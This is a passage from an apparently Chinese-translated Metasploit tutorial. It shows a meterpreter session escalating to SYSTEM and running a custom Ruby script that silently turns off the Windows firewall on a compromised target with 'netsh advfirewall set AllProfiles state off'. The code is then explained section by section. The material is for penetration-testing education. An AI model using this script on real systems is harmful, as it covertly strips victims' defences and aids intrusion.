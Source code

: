 ```

```
    meterpreter > getsystem
    ...got system (via technique 4).
    meterpreter > run myscript.rb
    [*] disabling the default firewall
    meterpreter > 
    ```

成功执行脚本将悄悄地禁用默认防火墙。命令的执行发生在后台，因此目标用户对此毫不知情。现在让我们详细了解脚本。

## 它是如何工作的...

让我们分析脚本的每个部分。

```
opts = Rex::Parser::Arguments.new(
"-h" => [ false, "Help menu." ]
)
opts.parse(args) { |opt, idx, val|
case opt
when "-h"
print_line "Meterpreter Script for disabling the Default Windows Firewall"
print_line "Let's hope it works"
print_line(opts.usage)
raise Rex::Script::Completed
end
} 
```

这些代码行只是我们可以与脚本一起传递的选项。在此脚本中，我们可以使用的唯一选项是`-h`参数，它显示脚本的使用消息。您可以将此代码片段保存为创建脚本选项的模板。您将遇到几个代码片段，可以直接在您自己的脚本中使用。

脚本从创建一个哈希（opts）开始，其中包括 Rex 库，Rex 库是 Ruby 扩展库的简写。唯一的键是`-h`。使用值设置为'false'，这意味着这是脚本的可选参数。代码的下几行将提供的选项与脚本匹配，并跳转到特定情况以使用`print_line()`显示消息。在我们的情况下，我们只使用了一个选项（`-h`）。

```
unsupported if client.platform !~ /win32|win64/i
begin
print_status("disabling the default firewall")
cmd_exec('cmd /c','netsh advfirewall set AllProfiles state off',5)
end 
```

脚本的这部分是操作特定的。它从验证客户端操作系统开始。然后使用 meterpreter mixin `cmd_exec()`，它可以作为隐藏和通道化执行命令。要执行的命令是`netsh advfirewall set AllProfiles state off`。mixin 在客户端机器上调用此命令，与命令提示符一起成功执行，禁用了 Windows 防火墙。

您可以通过添加更多功能并尝试不同的可能性来玩弄脚本。您实验得越多，学到的就越多。

这是如何构建 meterpreter 脚本的简短演示。在下一个配方中，我们将详细了解高级 meterpreter 脚本。

## 还有更多...

让我们扩展我们的讨论，以便更快更有效地进行渗透测试。
